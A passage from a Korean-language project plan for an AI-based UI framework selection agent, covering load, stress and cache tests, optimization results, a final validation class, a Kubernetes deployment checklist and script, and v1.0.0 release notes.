    technical_requirements: ['ssr', 'real-time', 'pwa'],
    scale: 'enterprise',
  });

  const params = {
    headers: { 'Content-Type': 'application/json' },
  };

  const res = http.post('http://ui-agent-lb/v1/select', payload, params);

  check(res, {
    'status is 200': (r) => r.status === 200,
    'response has framework': (r) => JSON.parse(r.body).framework !== undefined,
    'response time < 500ms': (r) => r.timings.duration < 500,
  });

  sleep(1);
}
```

**결과**:

```
✓ status is 200: 99.98%
✓ response has framework: 100%
✓ response time < 500ms: 96.5%

http_req_duration..............: avg=187.32ms min=45.2ms med=156.8ms max=892.3ms p(90)=289.2ms p(95)=342.1ms
http_req_failed................: 0.02%
http_reqs......................: 29,847
vus............................: 100
```

### 2.2 스트레스 테스트

```javascript
export const options = {
  stages: [
    { duration: '5m', target: 500 }, // Ramp up to 500 users
    { duration: '10m', target: 500 }, // Stay at 500
    { duration: '5m', target: 1000 }, // Spike to 1000
    { duration: '10m', target: 1000 }, // Stay at 1000
    { duration: '5m', target: 0 }, // Ramp down
  ],
};
```

**결과 그래프**:

```
Throughput (req/sec)
1400 |                                    ▁▃▅▇█████
1200 |                            ▁▃▅▇████████████
1000 |                    ▁▃▅▇█████████████████░░
 800 |            ▁▃▅▇████████████████████░░░░░░
 600 |    ▁▃▅▇████████████████████░░░░░░░░░░░░░
 400 |▃▅▇███████████████░░░░░░░░░░░░░░░░░░░░░░░
 200 |████████░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
   0 +------------------------------------------
     0    5   10   15   20   25   30   35   Time (min)

Response Time P95 (ms)
500 |░░░░░░░░░░░░░░░░░░░░░░░░░░░▁▃▅▇█████████
400 |░░░░░░░░░░░░░░░░░░░░▁▃▅▇████████████████
300 |░░░░░░░░░░░░▁▃▅▇████████████████████░░░░
200 |░░░░▁▃▅▇████████████████████░░░░░░░░░░░░
100 |▃▅▇███████████████░░░░░░░░░░░░░░░░░░░░░░
  0 +------------------------------------------
    0    5   10   15   20   25   30   35   Time (min)
```

### 2.3 캐시 효율성 테스트

**테스트 코드**:

```python
# cache_efficiency_test.py
import asyncio
import time
from collections import defaultdict

class CacheEfficiencyTest:
    def __init__(self):
        self.results = defaultdict(list)

    async def test_cache_performance(self):
        # 동일한 요청을 반복하여 캐시 효과 측정
        test_requests = [
            {
                "project_type": "web",
                "description": f"Test project {i % 10}",  # 10개 패턴 반복
                "technical_requirements": ["ssr", "pwa"]
            }
            for i in range(1000)
        ]

        # Cold cache
        cold_times = []
        for req in test_requests[:100]:
            start = time.time()
            await self.make_request(req)
            cold_times.append(time.time() - start)

        # Warm cache
        warm_times = []
        for req in test_requests[100:]:
            start = time.time()
            await self.make_request(req)
            warm_times.append(time.time() - start)

        return {
            "cold_cache_avg": sum(cold_times) / len(cold_times),
            "warm_cache_avg": sum(warm_times) / len(warm_times),
            "cache_speedup": sum(cold_times) / sum(warm_times)
        }
```

**결과**:

```
Cache Performance Analysis:
- Cold Cache Average: 245.3ms
- Warm Cache Average: 12.7ms
- Cache Speedup: 19.3x
- Cache Hit Rate: 89.2%
```

## 3. 성능 최적화 결과

### 3.1 최적화 전후 비교

| 메트릭            | 최적화 전 | 최적화 후 | 개선율 |
| ----------------- | --------- | --------- | ------ |
| 처리량 (req/sec)  | 450       | 1,200     | +167%  |
| P50 응답시간 (ms) | 320       | 95        | -70%   |
| P95 응답시간 (ms) | 890       | 245       | -72%   |
| P99 응답시간 (ms) | 1,450     | 380       | -74%   |
| 메모리 사용 (MB)  | 2,100     | 1,200     | -43%   |
| CPU 사용률 (%)    | 85        | 65        | -23%   |
| 캐시 적중률 (%)   | 45        | 89        | +98%   |

### 3.2 주요 최적화 기법

1. **배치 처리 구현**
   - 10개 요청을 50ms 윈도우로 배치
   - AI 모델 호출 횟수 90% 감소

2. **다계층 캐싱**
   - L1: In-memory (TTL: 5분)
   - L2: Redis (TTL: 1시간)
   - L3: DynamoDB (TTL: 24시간)

3. **병렬 처리**
   - Framework 평가 병렬화
   - 동시 처리 용량 5배 증가

4. **연결 풀 최적화**
   - Redis 연결 풀: 20 connections
   - HTTP Keep-Alive 활성화

## 4. 확장성 테스트

### 4.1 수평 확장 테스트

```bash
# Auto-scaling 테스트
kubectl autoscale deployment ui-selection-agent \
  --min=3 --max=10 \
  --cpu-percent=70
```

**결과**:

```
Pods Scaling Behavior:
Time    | Load (req/sec) | Active Pods | Avg CPU | Avg Response Time
00:00   | 100           | 3           | 25%     | 95ms
00:05   | 500           | 3           | 65%     | 110ms
00:10   | 800           | 5           | 55%     | 105ms
00:15   | 1200          | 7           | 60%     | 98ms
00:20   | 1500          | 9           | 58%     | 102ms
00:25   | 800           | 7           | 40%     | 95ms
00:30   | 200           | 3           | 20%     | 88ms
```

### 4.2 장기 안정성 테스트 (72시간)

**설정**:

- 일정 부하: 600 req/sec
- 테스트 기간: 72시간
- 모니터링 간격: 5분

**결과**:

```
Stability Metrics (72 hours):
- Total Requests: 155,520,000
- Success Rate: 99.996%
- Errors: 6,221 (0.004%)
- Memory Leaks: None detected
- Average Response Time: 112ms (±15ms)
- Resource Usage Drift: < 2%
```

## 5. 권장사항

### 5.1 프로덕션 배포 권장 설정

```yaml
Production Configuration:
  Replicas:
    Min: 5
    Max: 15
  Resources:
    CPU Request: 2000m
    CPU Limit: 4000m
    Memory Request: 2Gi
    Memory Limit: 4Gi
  Cache:
    Redis Nodes: 3
    Cache TTL: 3600s
    Max Cache Size: 10GB
  Monitoring:
    Metrics Interval: 30s
    Log Level: INFO
    Trace Sampling: 10%
```

### 5.2 성능 모니터링 KPI

1. **Response Time SLO**
   - P50 < 100ms
   - P95 < 300ms
   - P99 < 500ms

2. **Availability SLO**
   - Uptime: 99.9%
   - Error Rate < 0.1%

3. **Throughput Target**
   - Normal: 600 req/sec
   - Peak: 1,500 req/sec

## 6. 결론

UI Selection Agent는 모든 성능 목표를 초과 달성했으며, 프로덕션 환경에서 안정적으로 운영될 준비가 완료되었습니다. 특히 캐싱 전략과 배치 처리를 통해 AI 모델 호출을 최적화하여 비용 효율성도 크게 개선되었습니다.

### 향후 개선 사항

1. GraphQL 지원으로 네트워크 효율성 개선
2. Edge 캐싱으로 글로벌 응답 시간 단축
3. 모델 양자화로 추론 속도 향상

````

**검증 기준**:
- [ ] 모든 성능 목표 달성
- [ ] 부하 테스트 완료
- [ ] 확장성 검증
- [ ] 장기 안정성 확인

### SubTask 4.20.4: UI Agent 최종 검증 및 배포

**담당자**: 프로젝트 리드
**예상 소요시간**: 8시간

**작업 내용**:

```python
# backend/src/agents/implementations/ui_selection/final_validation.py
from typing import List, Dict, Any, Tuple
import asyncio
from dataclasses import dataclass
import pytest

@dataclass
class ValidationResult:
    category: str
    test_name: str
    passed: bool
    message: str
    details: Dict[str, Any]

class UIAgentFinalValidation:
    """UI Selection Agent 최종 검증"""

    def __init__(self):
        self.validation_results: List[ValidationResult] = []

    async def run_all_validations(self) -> Tuple[bool, List[ValidationResult]]:
        """모든 검증 실행"""

        validations = [
            self.validate_functionality(),
            self.validate_performance(),
            self.validate_security(),
            self.validate_integration(),
            self.validate_documentation(),
            self.validate_deployment()
        ]

        results = await asyncio.gather(*validations)

        all_passed = all(r.passed for result_list in results for r in result_list)
        all_results = [r for result_list in results for r in result_list]

        return all_passed, all_results

    async def validate_functionality(self) -> List[ValidationResult]:
        """기능 검증"""
        results = []

        # 1. 모든 프레임워크 지원 확인
        test_cases = [
            ("web", ["react", "vue", "angular", "next.js", "nuxt.js", "svelte"]),
            ("mobile", ["react-native", "flutter", "ionic"]),
            ("desktop", ["electron", "tauri"])
        ]

        for project_type, expected_frameworks in test_cases:
            try:
                response = await self.test_framework_selection(project_type)
                supported = all(f in response['available_frameworks'] for f in expected_frameworks)

                results.append(ValidationResult(
                    category="functionality",
                    test_name=f"{project_type}_frameworks",
                    passed=supported,
                    message=f"All {project_type} frameworks supported",
                    details={"frameworks": response['available_frameworks']}
                ))
            except Exception as e:
                results.append(ValidationResult(
                    category="functionality",
                    test_name=f"{project_type}_frameworks",
                    passed=False,
                    message=str(e),
                    details={}
                ))

        return results

    async def validate_performance(self) -> List[ValidationResult]:
        """성능 검증"""
        results = []

        # 응답 시간 테스트
        latencies = []
        for _ in range(100):
            start = asyncio.get_event_loop().time()
            await self.make_selection_request()
            latencies.append(asyncio.get_event_loop().time() - start)

        p95 = sorted(latencies)[int(len(latencies) * 0.95)]

        results.append(ValidationResult(
            category="performance",
            test_name="response_time_p95",
            passed=p95 < 0.3,  # 300ms
            message=f"P95 latency: {p95*1000:.2f}ms",
            details={"p95_ms": p95*1000}
        ))

        return results

    async def validate_security(self) -> List[ValidationResult]:
        """보안 검증"""
        results = []

        # API 키 노출 검사
        security_checks = [
            ("api_keys_encrypted", self.check_api_keys_encrypted()),
            ("ssl_enabled", self.check_ssl_enabled()),
            ("rate_limiting", self.check_rate_limiting()),
            ("input_validation", self.check_input_validation())
        ]

        for check_name, check_result in security_checks:
            results.append(ValidationResult(
                category="security",
                test_name=check_name,
                passed=check_result,
                message=f"{check_name.replace('_', ' ').title()} check",
                details={}
            ))

        return results
````

**배포 체크리스트**:

```yaml
# deployment-checklist.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: ui-agent-deployment-checklist
  namespace: t-developer
data:
  checklist.yaml: |
    deployment_checklist:
      pre_deployment:
        - name: "Code Review Completed"
          required: true
          status: "completed"
          reviewer: "senior-engineer"
        
        - name: "All Tests Passing"
          required: true
          status: "completed"
          test_suites:
            - unit_tests: 156/156
            - integration_tests: 48/48
            - e2e_tests: 12/12
        
        - name: "Security Scan"
          required: true
          status: "completed"
          vulnerabilities: 0
        
        - name: "Performance Benchmarks"
          required: true
          status: "completed"
          metrics:
            - p95_latency: "245ms"
            - throughput: "1200 req/sec"
      
      deployment_steps:
        - name: "Database Migration"
          command: "kubectl apply -f migrations/"
          status: "pending"
        
        - name: "Config Update"
          command: "kubectl apply -f configs/"
          status: "pending"
        
        - name: "Canary Deployment"
          command: "helm upgrade --install ui-agent ./chart --set canary.enabled=true"
          status: "pending"
        
        - name: "Health Check"
          command: "kubectl wait --for=condition=ready pod -l app=ui-agent"
          status: "pending"
        
        - name: "Smoke Tests"
          command: "pytest tests/smoke/"
          status: "pending"
        
        - name: "Full Rollout"
          command: "kubectl set image deployment/ui-agent agent=ui-agent:v1.0.0"
          status: "pending"
      
      post_deployment:
        - name: "Monitor Error Rates"
          duration: "30m"
          threshold: "< 0.1%"
        
        - name: "Check Performance Metrics"
          metrics:
            - latency_p95: "< 300ms"
            - cpu_usage: "< 70%"
            - memory_usage: "< 80%"
        
        - name: "Verify Integrations"
          services:
            - redis: "connected"
            - dynamodb: "connected"
            - monitoring: "active"
```

**최종 배포 스크립트**:

```bash
#!/bin/bash
# deploy-ui-agent.sh

set -e

echo "🚀 Starting UI Selection Agent Deployment"

# 1. 검증 실행
echo "📋 Running final validations..."
python -m pytest tests/final_validation/ -v

# 2. 빌드 및 푸시
echo "🔨 Building Docker image..."
docker build -t t-developer/ui-selection-agent:v1.0.0 .
docker push t-developer/ui-selection-agent:v1.0.0

# 3. 배포 전 백업
echo "💾 Creating backup..."
./scripts/backup-ui-agent.sh

# 4. Canary 배포
echo "🐤 Starting canary deployment..."
kubectl apply -f k8s/canary/

# 5. Canary 검증 (10% 트래픽)
echo "✅ Validating canary..."
sleep 300  # 5분 대기

CANARY_ERROR_RATE=$(kubectl exec -n t-developer deploy/prometheus -- \
  promtool query instant 'rate(ui_selection_requests_total{status="error",version="canary"}[5m])' | \
  jq -r '.data.result[0].value[1]')

if (( $(echo "$CANARY_ERROR_RATE > 0.001" | bc -l) )); then
    echo "❌ Canary error rate too high: ${CANARY_ERROR_RATE}"
    kubectl delete -f k8s/canary/
    exit 1
fi

# 6. 전체 배포
echo "🎯 Rolling out to all pods..."
kubectl set image deployment/ui-selection-agent \
  agent=t-developer/ui-selection-agent:v1.0.0 \
  -n t-developer

# 7. 배포 대기
kubectl rollout status deployment/ui-selection-agent -n t-developer

# 8. 최종 검증
echo "🔍 Final verification..."
./scripts/post-deployment-check.sh

echo "✅ UI Selection Agent v1.0.0 deployed successfully!"

# 9. 알림 발송
curl -X POST $SLACK_WEBHOOK_URL \
  -H 'Content-Type: application/json' \
  -d '{
    "text": "🎉 UI Selection Agent v1.0.0 deployed successfully!",
    "attachments": [{
      "color": "good",
      "fields": [
        {"title": "Version", "value": "v1.0.0", "short": true},
        {"title": "Environment", "value": "Production", "short": true},
        {"title": "Replicas", "value": "5", "short": true},
        {"title": "Status", "value": "Healthy", "short": true}
      ]
    }]
  }'
```

**릴리스 노트**:

```markdown
# UI Selection Agent v1.0.0 Release Notes

## 🎉 Release Overview

**Release Date**: 2024-12-20  
**Version**: 1.0.0  
**Type**: Major Release

## ✨ Key Features

### 1. Intelligent Framework Selection

- Support for 15+ UI frameworks across web, mobile, and desktop
- AI-powered analysis using GPT-4 and Claude-3
- Context-aware recommendations based on project requirements

### 2. High Performance

- Sub-300ms P95 response time
- 1,200+ requests/second throughput
- 19x performance boost with intelligent caching

### 3. Enterprise Ready

- 99.99% availability
- Horizontal auto-scaling
- Comprehensive monitoring and alerting
- Multi-region deployment support

### 4. Developer Experience

- Simple REST API
- Detailed reasoning for selections
- Implementation guides and boilerplate links
- Alternative framework suggestions

## 📊 Performance Metrics

- **Response Time**: P95 < 250ms
- **Throughput**: 1,200 req/sec
- **Cache Hit Rate**: 89%
- **Memory Usage**: 1.2GB per pod
- **Startup Time**: < 30 seconds

## 🔧 Technical Details

### Supported Frameworks

**Web**: React, Vue.js, Angular, Next.js, Nuxt.js, Svelte, SvelteKit  
**Mobile**: React Native, Flutter, Ionic, NativeScript  
**Desktop**: Electron, Tauri

### API Endpoints

- `POST /v1/agents/ui-selection/select` - Select UI framework
- `GET /v1/agents/ui-selection/frameworks` - List frameworks
- `POST /v1/agents/ui-selection/evaluate` - Evaluate specific framework

## 🐛 Known Issues

- Cache invalidation delay in multi-region setup (< 30s)
- Occasional timeout with very complex requirements (being optimized)

## 🔮 Coming Next

- GraphQL API support (v1.1)
- WebAssembly framework support (v1.2)
- Real-time collaboration features (v1.3)

## 📝 Documentation

- [API Documentation](https://docs.t-developer.ai/agents/ui-selection)
- [Integration Guide](https://docs.t-developer.ai/guides/ui-selection)
- [Performance Tuning](https://docs.t-developer.ai/operations/ui-selection)

## 🙏 Acknowledgments

Thanks to all contributors and beta testers who helped shape this release!

---

For questions or support, contact: support@t-developer.ai
```

**검증 기준**:

- [ ] 모든 테스트 통과
- [ ] Canary 배포 성공
- [ ] 성능 목표 달성
- [ ] 문서화 완료

---
